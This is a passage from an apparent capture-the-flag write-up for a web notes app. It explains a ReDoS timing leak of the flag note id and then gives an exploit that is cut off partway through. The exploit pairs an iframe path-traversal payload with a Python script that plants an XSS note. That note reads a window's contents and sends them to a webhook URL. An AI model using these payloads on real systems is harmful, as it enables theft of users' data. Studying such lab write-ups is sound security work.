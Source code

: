 ```js
      .create()
      .paths(`./notes/${adminUUID}`)
      .match(`*${searchTitle}*-*.txt`)
      .ext("txt")
      .find();
    return res.render("search", { data: { ...notes, id: userId } });
  }
});
```
Here whether admin or not the searching will happen because it is in finally block. It will return whatever is given in try and catch but the connection will only close after the finally block is executed. So we can get the flag noteid using time difference by doing ReDos. 

## Final Exploit
Now we have the flag noteid and XSS in admin bot. So the flag can be acquired by reporting the note content as:

```html
<iframe src="./flagid"></iframe>
<iframe src="./../%2fuuid%2fxssnoteid%2fraw/share"></iframe>
```

The full exploit is:
```js
import requests
from pwn import *
import time

url = "http://34.18.37.24:10505"
hook_url = "{webhook_url}"

s = requests.Session()


def convert_to_raw(preapred):
    return (
        preapred.method
        + " "
        + preapred.path_url
        + " HTTP/1.1\r\n"
        + "Host: 34.18.37.24:10505\r\n"
        + "\r\n".join([f"{k}: {v}" for k, v in preapred.headers.items()])
        + "\r\n\r\n"
        + preapred.body
    )


header = {"Authorization": "Basic YWM0NzUxYTEzYjEwZDU5NTplYjNiNzMwNmFlYjM0NzVk"}


def create_xss_note():
    payload = f"""
    <script>
    (async () => {{
    const w = window.open("","flag");
    await new Promise(r => setTimeout(r, 2000));
    open("{hook_url}?f="+encodeURIComponent(w.document.body.innerHTML));
    }})();
    </script>
    """
    r = s.post(
        url + "/create",
        data={"title": "xss", "note": payload},
        allow_redirects=False,
```